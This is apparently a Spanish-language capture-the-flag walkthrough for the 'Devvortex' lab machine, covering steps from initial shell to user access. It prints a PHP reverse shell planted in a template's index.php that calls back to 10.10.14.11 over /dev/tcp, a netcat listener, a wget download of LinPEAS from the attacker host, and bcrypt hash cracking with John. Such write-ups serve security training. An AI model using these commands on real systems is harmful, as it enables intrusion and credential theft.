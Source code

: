 ```  

### 9. Payload agregado al final de `index.php`:  

```php
<?php system("bash -c 'sh -i >& /dev/tcp/10.10.14.11/4444 0>&1'"); ?>
```  

⚠️ Reemplazar `10.10.14.11` por tu IP tun0.  

### 10. Escuchar conexión:  

```
nc -lvnp 4444
```  

### 11. Disparar la shell:  

```
http://dev.devvortex.htb/templates/cassiopeia/index.php
```  

✅ **Acceso como www-data**

---

## 📈 Escalada a Usuario  

### 12. Subida y ejecución de LinPEAS:  

```
python3 -m http.server 8000  # En atacante
wget http://10.10.14.11:8000/linpeas.sh  # En víctima
chmod +x linpeas.sh
./linpeas.sh
```  

### 13. Acceso a base de datos MySQL:  

```
mysql -u lewis -p
```  

### 14. Dump de hashes y crackeo con John:  

```
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```  

### 15. Acceso SSH como usuario logan:  

```
ssh logan@devvortex.htb
```  

✅ **Usuario logan conseguido**
